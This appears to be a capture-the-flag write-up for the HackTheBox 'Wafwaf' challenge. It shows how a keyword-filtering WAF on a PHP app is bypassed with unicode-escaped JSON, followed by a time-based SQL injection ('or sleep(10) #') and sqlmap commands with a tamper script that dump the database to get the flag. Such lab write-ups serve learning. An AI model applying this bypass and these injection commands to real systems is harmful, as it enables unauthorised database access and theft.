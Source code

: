 # bugbase_task2
## Wafwaf hackthebox

<img src="Picture1.png">


<p>&nbsp;</p>  


On entering the ip in the browser.

<img src="Picture2.png">
<p>&nbsp;</p>

it looks somewhat a php code

there is a sql database and the input of POST requests are filtered using the function *waf*.

<img src="Picture3.png">

- The script ends abruptly after a symbol is found


***[, (, *, <, =, >, |, ', &, -, @, ], select, and, or, if, by, from, where,
as, is, in, not, having***


lets try sqli


# SQLi

Checking what happens when we make a request with one of the words that are filtered by the waf:

**curl http://46.101.23.188:32080/ -X POST -d '{"user":"select"}'
array(1) {
  [0]=>
  string(6) "select"
}**


the script seems to accept **json** code;
and after getting json code  we can simply convert it into utf-16


lets burp we need to enter the localhoast address after -x


**curl http://46.101.23.188:32080/ -X POST -d '{"user":"d"}' -x http://127.0.0.1:8080**

<img src="Picture4.png">

Once the request is captured, we will send it to the repeater



<img src="Picture5.png">

after this we will overcome this  using payload **or sleep(10) #** will be encoded to utf-16 from json decode.

(https://www.branah.com/unicode-converter)

<img src="Picture11.png">



load the payload.

<img src="Picture12.png">





now enter the POST code into a .txt and rwplace the payload placeholder with ```bash * ```

<img src="Picture13.png">

# time based SQL Injection

execuing time based sqli using  ```sqlmap``` to retrieve database.

**sqlmap -r qw.txt -tamper charunicodeescape -v 3 --batch --level=5 --risk=3 --threads=10 --technique=T --dbs --dbms=mysql**


<img src="Picture6.png">

We can see here we have five databases db_m8452, info_schema, mysql, performance_schema, sys.
lets retrive tables from db_m8452:


**sqlmap -r qw.txt -tamper charunicodeescape -v 3 --batch --level=5 --risk=3 --threads=10 --technique=T -D db_m8452 --tables --dbms=mysql**


<img src="Picture7.png">

db_m8452  has two tables, *definitely_not_a_flag* and *notes*. lets dump  *definitely_not_a_flag* (--dump).


**sqlmap -r qw.txt -tamper charunicodeescape -v 3 --batch --level=5 --risk=3 --threads=10 --technique=T -D db_m8452 -T definitely_not_a_flag --dump --dbms=mysql**

after applying the time based sql inject. and many payloads later we got the flag

<img src="Picture10.png">


